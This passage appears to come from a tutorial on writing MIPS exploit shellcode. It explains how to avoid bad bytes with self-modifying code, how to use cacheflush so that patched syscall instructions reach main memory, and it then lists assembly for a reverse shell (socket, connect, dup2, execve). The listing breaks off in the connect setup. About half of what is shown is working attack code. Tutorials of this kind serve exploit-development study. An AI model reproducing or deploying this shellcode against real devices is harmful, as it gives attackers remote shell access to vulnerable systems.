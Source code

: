 ```
addiu $s3, $t9, -0x2121
xori $s4, $s6, 0x313D
sw $s4, 0x2121+OFFSET_TO_INSTRUCTION($s3)
```

It's assumed we jumped to the shellcode using the $t9 register so we store that offset minus 0x2121 as a way to access offsets in our shellcode. For example, if we want the address of an instruction 0x30 bytes into our shellcode we can use `addiu $s1, $s3, 0x2151` because `$s3` holds `$t9 - 0x2121` and we avoid bad bytes. The `xori` instruction stores 0x0C in the `$s4` registers and the `sw` instruction stores that byte at an offset relative to our shellcode essentially creating a syscall. Unfortunately, thats only half the battle. Remember the separate data and instruction cache that MIPS, and other RISC architectures, maintain? That instruction we just updated still lives in the data cache and we need it to exist in main memory otherwise during execution the old placeholder bytes will be executed instead of the updated syscall instruction. We know from writing the ROP chain to send the NOP sled shellcode that a blocking operation like sleep or calling cacheflush will push our shellcode to main memory, so thats the same task we need to perform in our shellcode. You can use `cacheflush` or `nanosleep` to force a context switch, but i chose to call cacheflush. The updated shellcode is shown below.

```
.globl main
.text

main:
	addiu $s5, $t9, -0x3121
	slti $s7, $s5, -258
	addiu $s4, $s7, 0x248C

	sw $s4, %lo(socket_syscall - main + 0x3121)($s5)
	sw $s4, %lo(connect_syscall - main + 0x3121)($s5)
	sw $s4, %lo(dup2_stdin_syscall - main + 0x3121)($s5)
	sw $s4, %lo(dup2_stdout_syscall - main + 0x3121)($s5)
	sw $s4, %lo(dup2_stderr_syscall - main + 0x3121)($s5)
	sw $s4, %lo(execve_syscall - main + 0x3121)($s5)

	# cacheflush(START_OF_SHELLCODE, LENGTH_OF_SHELLCODE, BCACHE);
	addiu $a0, $s5, 0x3121
	xori $a1, $s4, 0x248C ^ (execve_syscall - main + 4)
	xori $a2, $s4, 0x248F
	xori $v0, $s4, 0x34BF
	syscall

	addiu $s6, $s7, 0x3131

	# call socket
	xori $a0, $s6, 0x3133
	xori $a1, $s6, 0x3133
	xori $a2, $s6, 0x3131
	xori $v0, $s6, 0x2166
socket_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE
	addiu $fp, $v0, -0x2121

	# call connect
	addiu $a0, $fp, 0x2121
	xori $s3, $s6, 0x3133
	sw $s3, -300($sp)
	addiu $s3, $s7,  0x8080
	sh $s3, -298($sp)
	xori $s3, 0x922C
	sw $s3, -296($sp)
	xori $s3, $s6, 0x3B34
	sw $s3, -294($sp)
	sw $s7, -292($sp)
```